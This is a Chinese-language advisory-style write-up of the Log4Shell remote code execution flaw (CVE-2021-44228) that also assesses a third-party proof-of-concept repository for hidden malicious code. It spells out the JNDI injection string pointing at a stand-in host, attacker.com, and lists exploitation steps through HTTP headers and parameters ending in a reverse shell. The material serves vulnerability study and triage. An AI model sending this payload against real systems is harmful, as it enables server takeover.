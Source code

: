## CVE-2021-44228-Log4Shell-RCE

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行(RCE)

**影响应用:** Apache Log4j2

**危害等级:** 极高危，可导致服务器完全控制

**影响版本:** <= 2.14.1 (不包括安全版本 2.12.2, 2.12.3, 和 2.3.1)

**利用条件:** 应用程序使用存在漏洞的Log4j2版本，且允许攻击者控制日志消息或日志消息参数。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-44228（Log4Shell）是一个严重的远程代码执行漏洞，存在于Apache Log4j2中。攻击者可以通过构造特殊的JNDI注入字符串，例如`${jndi:ldap://attacker.com/evil}`，当Log4j2记录此字符串时，会尝试通过JNDI从攻击者控制的LDAP服务器下载并执行恶意代码。这个漏洞利用的关键在于Log4j2的lookup substitution功能允许在日志消息中使用JNDI查找。漏洞库信息、搜索引擎结果和提供的PoC代码都证实了此漏洞的严重性和利用方式。

**有效性：**
提供的YAML格式的PoC代码有效，针对不同的应用场景（Apache Druid, Apache JSPWiki, CAS, Code42, Elasticsearch等）构造了特定的payload，通过发送包含JNDI注入字符串的请求，触发漏洞。

**投毒风险：**
PoC代码本身的主要目的是验证漏洞的存在，但存在一定的投毒风险。虽然PoC中执行的恶意代码通常是用于验证目的，例如回连攻击者的服务器，但如果攻击者篡改这些PoC，可以将payload替换为更具破坏性的恶意代码，比如植入后门、窃取敏感信息或进行拒绝服务攻击。由于PoC文件来自未经审核的第三方源，存在作者在payload中植入恶意代码的可能性。因此，在使用这些PoC时，需要仔细审查代码，确保其安全性。

风险评估：
* 代码结构和目标：PoC文件结构清晰，目标明确，针对已知漏洞利用。恶意行为的风险较低，因为代码的目的是为了复现漏洞，而不是隐藏恶意功能。
* 外部依赖：几乎没有外部依赖项，降低了引入恶意代码的可能性。
* 权限要求：这些 PoC 需要具有执行网络请求的权限，这增加了潜在的风险，因为它们可能被用来发起对内部网络的攻击或数据泄露。
* 代码审查：代码可读性高，易于审查。这意味着可以相对容易地识别和删除任何潜在的恶意代码。

综合以上因素，我给出的投毒风险是 10%。

**利用方式：**
1.  **确定目标系统：** 找到使用存在漏洞的Log4j2版本的应用程序。
2.  **构造恶意Payload：**  构建包含JNDI注入的Payload，例如`${jndi:ldap://attacker.com/evil}`。其中`attacker.com`是攻击者控制的服务器，`evil`是LDAP服务器上的恶意代码。
3.  **发送Payload：** 将Payload插入到应用程序的日志消息中。这可以通过多种方式实现，例如：
    *   HTTP请求头（User-Agent, X-Forwarded-For等）
    *   POST请求参数
    *   URL参数
    *   任何可能被应用程序记录的输入
4.  **利用JNDI执行恶意代码：**  当Log4j2记录包含Payload的消息时，会尝试通过JNDI从`attacker.com`下载并执行恶意代码。
5.  **反向shell获取权限：**  恶意代码通常会启动一个反向shell，允许攻击者远程控制目标系统。

提供的PoC代码针对特定应用（Druid, JSPWiki, CAS, Code42, Elasticsearch）的特定URI或HTTP头构造包含恶意JNDI字符串的请求，如果目标应用存在漏洞，且使用Log4j2记录相关请求信息，则可触发漏洞，实现远程代码执行。

**项目地址:** [sec13b/CVE-2021-44228-POC](https://github.com/sec13b/CVE-2021-44228-POC)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)